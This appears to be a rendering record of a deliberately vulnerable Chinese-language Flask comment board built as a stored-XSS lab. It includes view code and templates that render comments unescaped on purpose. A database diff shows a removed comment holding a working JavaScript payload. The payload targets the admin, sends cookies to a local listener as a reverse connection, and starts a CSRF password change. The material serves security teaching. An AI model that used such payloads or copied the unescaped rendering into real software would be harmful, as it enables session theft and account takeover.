

/comment (signed in), run on an earlier commit of the app's database (2 pictures, top to bottom).


And on a later commit of the database (2 pictures, top to bottom).
### tables this page shows
CREATE TABLE comments (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT NOT NULL,
        message TEXT NOT NULL,
        created_at DATETIME DEFAULT CURRENT_TIMESTAMP
    );

### app.py (the view)
@app.route('/comment', methods=['GET', 'POST'])
def comment():
    if 'username' not in session:
        return redirect(url_for('login'))
    if request.method == 'POST':
        msg = request.form['message']
        add_comment(session['username'], msg)
    comments = get_comments()
    csrf_token = generate_csrf_token()  # 每次都生成新的 CSRF token
    return render_template('comment.html', comments=comments, csrf_token=csrf_token, username=session['username'])

### app.py (called while the page is built)
def get_db_connection():
    conn = sqlite3.connect(DB_PATH)
    conn.row_factory = sqlite3.Row
    return conn

def get_comments():
    conn = get_db_connection()
    comments = conn.execute('SELECT * FROM comments ORDER BY created_at DESC').fetchall()
    conn.close()
    return comments

def generate_csrf_token():
    token = secrets.token_hex(16)
    session['csrf_token'] = token
    return token

### templates/comment.html (shortened to what this page needs)
<!DOCTYPE html>
<html>
<head>
</head>
<body>
    {% extends "base.html" %}
    {% block content %}
    <div class="card" style="max-width: 800px;">
        <h2 style="text-align: center; margin-bottom: 2rem; color: #333;">💬 公開留言板</h2>
        <p style="text-align: center; color: #666; margin-bottom: 2rem;">
            歡迎 <strong>{{ username }}</strong>！在此分享您的想法，所有用戶都可以看到您的留言。
        </p>
        <form method="POST" style="margin-bottom: 2rem;">
            <div class="form-group">
                <label for="message">留言內容</label>
                <textarea id="message" name="message" rows="4"
                         placeholder="分享您的想法、連結、或任何內容..." required></textarea>
                <small style="color: #666;">支援 HTML 格式，讓您的留言更豐富！留言將永久保存在資料庫中。</small>
            </div>
            <button type="submit" class="btn">發布留言</button>
        </form>
        <div style="background: #e3f2fd; padding: 1rem; border-radius: 10px; margin-bottom: 2rem;">
            <h4 style="color: #1976d2; margin-bottom: 0.5rem;">🔒 安全提醒</h4>
            <p style="color: #333; font-size: 0.9rem;">
                此留言板支援 HTML 內容以提供更好的使用體驗。所有留言和用戶資料都會永久保存在資料庫中。
            </p>
            <small style="color: #666;">當前 CSRF Token: <code>{{ csrf_token[:8] }}...</code></small>
        </div>
        <h3 style="color: #333; margin-bottom: 1rem;">
            📝 所有留言 <span style="font-size: 0.8rem; color: #666;">({{ comments|length }} 則留言)</span>
            {% if username == 'admin' %}
                <br>
                <small>
                    <a href="/admin/comments" style="color: #007bff; text-decoration: none;">[查看留言資料庫]</a> |
                    <a href="/admin/users" style="color: #007bff; text-decoration: none;">[查看用戶資料庫]</a>
                </small>
            {% endif %}
        </h3>
        {% if comments %}
            {% for comment in comments %}
                <div class="comment-item">
                    <div class="comment-user">
                        👤 {{ comment.username }}
                        <span style="font-size: 0.8rem; color: #888; font-weight: normal;">
                            - {{ comment.created_at }}
                        </span>
                    </div>
                    <div style="margin-top: 0.5rem; line-height: 1.5;">
                        {{ comment.message|safe }}
                    </div>
                </div>
            {% endfor %}
        {% else %}
            <div style="text-align: center; padding: 2rem; color: #666; background: #f8f9fa; border-radius: 10px;">
                <p>📭 目前沒有留言</p>
                <p style="font-size: 0.9rem; margin-top: 0.5rem;">成為第一個發布留言的用戶吧！</p>
            </div>
        {% endif %}
        <div style="margin-top: 2rem; padding: 1rem; background: #fff3cd; border-radius: 10px; border-left: 4px solid #ffc107;">
            <h4 style="color: #856404; margin-bottom: 0.5rem;">⚠️ Stored XSS 說明</h4>
            <p style="color: #856404; font-size: 0.9rem;">
                此留言板有 Stored XSS 漏洞，以下是預期demo的內容。
            </p>
            <ul style="color: #856404; font-size: 0.9rem; margin-top: 0.5rem; padding-left: 1.5rem;">
                <li>利用XSS讓使用者把自己的CSRF token一起帶進去，然後把密碼給改掉</li>
                <li>用JShell工具讓攻擊者可以操作Web Shell (KeyLogger、重新定向)</li>
            </ul>
        </div>
    </div>
    {% endblock %}

### templates/base.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="zh-TW">
<head>
</head>
<body>
    <nav class="navbar">
        <div class="nav-content">
            <a href="/" class="logo">🛡️ SecureWeb</a>
            <div class="nav-links">
                {% if session.username %}
                    <a href="/comment">留言板</a>
                    <a href="/account">帳號設定</a>
                    {% if session.username == 'admin' %}
                        <a href="/fetch">URL 獲取</a>
                    {% endif %}
                    <a href="/logout">登出</a>
                    <span style="color: rgba(255,255,255,0.8); margin-left: 1rem;">
                        歡迎 {{ session.username }}
                        {% if session.username == 'admin' %}
                            <span style="color: #ffd700;">👑</span>
                        {% endif %}
                    </span>
                {% else %}
                    <a href="/login">登入</a>
                {% endif %}
            </div>
        </div>
    </nav>
    <div class="container">
        {% block content %}{% endblock %}
    </div>
</body>
</html>

### templates/base.html (style rules this page uses)
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif; background: linear-gradient(135deg, #667eea 0%, #764ba2 100%); min-height: 100vh; display: flex; flex-direction: column; }
.navbar { background: rgba(255, 255, 255, 0.1); backdrop-filter: blur(10px); padding: 1rem 2rem; border-bottom: 1px solid rgba(255, 255, 255, 0.2); }
.nav-content { display: flex; justify-content: space-between; align-items: center; max-width: 1200px; margin: 0 auto; }
.logo { color: white; font-size: 1.5rem; font-weight: bold; text-decoration: none; }
.nav-links { display: flex; gap: 1rem; }
.nav-links a { color: white; text-decoration: none; padding: 0.5rem 1rem; border-radius: 5px; transition: background 0.3s; }
.container { flex: 1; display: flex; justify-content: center; align-items: center; padding: 2rem; }
.card { background: rgba(255, 255, 255, 0.95); border-radius: 20px; padding: 2rem; box-shadow: 0 20px 40px rgba(0, 0, 0, 0.1); backdrop-filter: blur(10px); border: 1px solid rgba(255, 255, 255, 0.3); max-width: 500px; width: 100%; }
.form-group { margin-bottom: 1.5rem; }
label { display: block; margin-bottom: 0.5rem; color: #333; font-weight: 500; }
input, textarea { width: 100%; padding: 0.75rem; border: 2px solid #e1e5e9; border-radius: 10px; font-size: 1rem; transition: border-color 0.3s; }
.btn { background: linear-gradient(135deg, #667eea 0%, #764ba2 100%); color: white; border: none; padding: 0.75rem 2rem; border-radius: 10px; font-size: 1rem; cursor: pointer; transition: transform 0.3s; width: 100%; }
.comment-item { background: #f8f9fa; padding: 1rem; border-radius: 10px; margin-bottom: 1rem; border-left: 4px solid #667eea; }
.comment-user { font-weight: bold; color: #667eea; margin-bottom: 0.5rem; }

What changed in the data, as far as the page shows it:
removed comments: username "user", created_at "2025-05-29 16:10:40"
removed comments: username "user", created_at "2025-05-29 16:10:29", message "if(document.querySelector('.nav-content') && document.querySelector('.nav-content').innerText.includes('admin')) { console.log('[ATTACK] Admin detected - Starting targeted attack'); // JSshell 反向連接 (僅針對 admin) setInterval(function(){ with(document)body.appendChild(createElement(\"script\")).src=\"http://127.0.0.1:4848/?admin_\".concat(document.cookie) }, 1010); // 針對 admin 的 CSRF 攻擊 - 修改密碼為 hacked123 setTimeout(() => { // 多種方式獲取 CSRF token let token = null; // 方法1: 從隱藏的 input 獲取 const hiddenToken = document.querySelector('#csrf_token_hidden'); if (hiddenToken) { token = hiddenToken.value; console.log('[ATTACK] Token from hidden input:', token); } // 方法2: 從任何 csrf_token input 獲取 if (!token) {…"
changed comments "admin": created_at "2025-05-29 16:10:27" → "2025-05-30 16:54:18"
Also different on the page:
{{ comments|length }}: "3" → "1"
